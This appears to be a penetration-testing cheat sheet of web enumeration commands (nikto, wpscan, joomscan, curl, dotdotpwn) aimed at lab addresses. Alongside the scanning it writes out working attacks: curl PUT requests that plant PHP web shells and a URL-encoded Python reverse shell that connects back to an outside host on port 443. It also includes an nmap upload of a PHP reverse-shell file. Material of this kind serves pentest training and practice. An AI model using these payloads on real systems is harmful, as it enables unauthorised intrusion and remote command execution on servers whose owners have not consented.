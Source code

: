 ```
# Nikto
nikto -h http://10.11.1.111

# Nikto with squid proxy
nikto -h 10.11.1.111 -useproxy http://10.11.1.111:4444

# CMS Explorer
cms-explorer -url http://10.11.1.111 -type [Drupal, WordPress, Joomla, Mambo]

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://10.11.1.111
wpscan --url http://10.11.1.111 --enumerate vp
wpscan --url http://10.11.1.111 --enumerate vt
wpscan --url http://10.11.1.111 --enumerate u

# Joomscan
joomscan -u  http://10.11.1.111 
joomscan -u  http://10.11.1.111 --enumerate-components

# Get header
curl -i 10.11.1.111

# Get options
curl -i -X OPTIONS 10.11.1.111

	# With PUT option enabled:
	
	nmap -p 80 192.168.1.124 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.1.124/test/cmd.php
	&& http://192.168.1.124/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.110%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L 10.11.1.111
curl -i -H "User-Agent:Mozilla/4.0" http://10.11.1.111:8080

# Check for title and all links
curl 10.11.1.111 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.11.1.111 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.11.1.111/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.11.1.111/test/shell.php

# Simple curl POST request with login data
curl -X POST http://10.11.1.11/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

dotdotpwn.pl -m http -h 10.11.1.111 -M GET -o unix

```
